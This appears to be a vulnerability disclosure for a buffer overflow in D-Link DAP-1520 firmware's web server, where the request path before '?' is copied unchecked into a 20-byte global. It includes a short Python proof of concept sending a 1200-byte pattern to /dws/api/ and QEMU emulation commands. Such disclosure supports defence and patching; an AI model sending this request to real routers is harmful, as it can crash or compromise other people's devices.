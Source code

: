 ## Overview

| Firmware Name | Firmware Version         | Download Link                                                |
| ------------- | ------------------------ | ------------------------------------------------------------ |
| DAP-1520      | DAP1520A1_FW110b04beta02 | http://legacyfiles.us.dlink.com/DAP-1520/REVA/FIRMWARE/DAP-1520_REVA_FIRMWARE_1.10B04_BETA02_HOTFIX.zip |

## Analysis

![42d41ae2615e34cad85c06b96497849](./assets/42d41ae2615e34cad85c06b96497849.png)

Before further processing, the global variable ws_action is initialized using memset(&ws_action, 0, 20) to clear its 20-byte buffer.

If the http request path start with "/dws/api/",the set_ws_action function is provided below for reference.

![49a0547c3c8dda3ff60b3db64c79876](./assets/49a0547c3c8dda3ff60b3db64c79876.png)

First, use the `strchr` function to find the first occurrence of `'?'` in `a1` and store its address in the pointer `V1`. Then, calculate the `size` based on the distance from the start address of `a1` to `'?'`. Finally, copy all the data from the start address of `a1` to `'?'` into the global variable `ws_action`.

The global variable ws_action is located at address 0x0046DBC0 and has a buffer of only 20 bytes, making it susceptible to buffer overflow.

![025f114259e42006f3d31b78408681d](./assets/025f114259e42006f3d31b78408681d.png)

## POC

```py
import requests
from pwn import *
ip = "127.0.0.1"
port = 80
url = f"http://{ip}:{port}/dws/api/{cyclic(1200).decode('utf-8')}?"
print(requests.get(url).text)
```

## qemu-mipsel-static

```
cd etc/conf.d
sudo rm -f auth.conf
cp auth_base.conf auth.conf
cd ..
cd ..
cd tmp/
mkdir log
cd log/
mkdir lighttpd
cd ..
cd ..
cp $(which qemu-mipsel-static) .
sudo chroot ./ ./qemu-mipsel-static  sbin/lighttpd -D -f etc/lighttpd_base.conf
```

![e4a62eb4d4dbf01658249e089f209bb](./assets/e4a62eb4d4dbf01658249e089f209bb.png)